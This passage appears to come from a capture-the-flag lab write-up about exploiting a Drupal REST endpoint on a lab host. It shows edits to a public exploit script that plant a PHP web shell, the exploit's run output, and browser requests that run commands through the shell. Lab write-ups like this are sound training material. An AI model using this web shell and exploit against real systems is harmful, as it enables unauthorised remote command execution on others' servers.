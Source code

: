 Clicking on the "api\_test" link takes us to [http://10.10.10.9/rest](http://10.10.10.9/rest) and returns the following message in the browser:

> Services Endpoint "rest\_endpoint" has been setup successfully.&#x20;

This looks promising. We can now go back to our PHP script and update it as follows:

> $url = 'http://10.10.10.9';&#x20;
>
> $endpoint\_path = '/rest';&#x20;
>
> $endpoint = 'rest\_endpoint';
>
> 'filename' => 'rce.php',
>
> 'data' => '\<?php system($\_GET\["cmd"]); ?>'

Let's run it:

```
└─$ php 41564.php

Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/rce.php

```

Our file has been uploaded. Let's see if we have command execution on the target:

### RCE using a web browser

> [http://10.10.10.9/rce.php?cmd=whoami](http://10.10.10.9/rce.php?cmd=whoami)
>
> [http://10.10.10.9/rce.php?cmd=systeminfo](http://10.10.10.9/rce.php?cmd=systeminfo)

![](<../../.gitbook/assets/5 (1).JPG>)
